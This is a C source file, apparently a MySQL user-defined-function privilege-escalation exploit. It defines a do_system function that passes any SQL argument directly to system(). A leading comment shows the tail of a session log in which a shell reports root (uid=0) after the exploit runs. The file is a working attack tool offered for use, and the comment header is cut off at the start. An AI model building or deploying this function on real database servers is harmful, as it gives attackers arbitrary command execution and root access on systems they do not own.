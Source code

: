 ```
* sh-2.05b$ cat /tmp/out

* uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)

* [...]

*/

#include <stdio.h>

#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {

unsigned int arg_count; // number of arguments

enum Item_result *arg_type; // pointer to item_result

char **args; // pointer to arguments

unsigned long *lengths; // length of string args

char *maybe_null; // 1 for maybe_null args

} UDF_ARGS;

typedef struct st_udf_init {

char maybe_null; // 1 if func can return NULL

unsigned int decimals; // for real functions

unsigned long max_length; // for string functions

char *ptr; // free ptr for func data

char const_item; // 0 if result is constant

} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)

{

if (args->arg_count != 1)

return(0);

system(args->args[0]);

return(0);

}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)

{

return(0);

}
```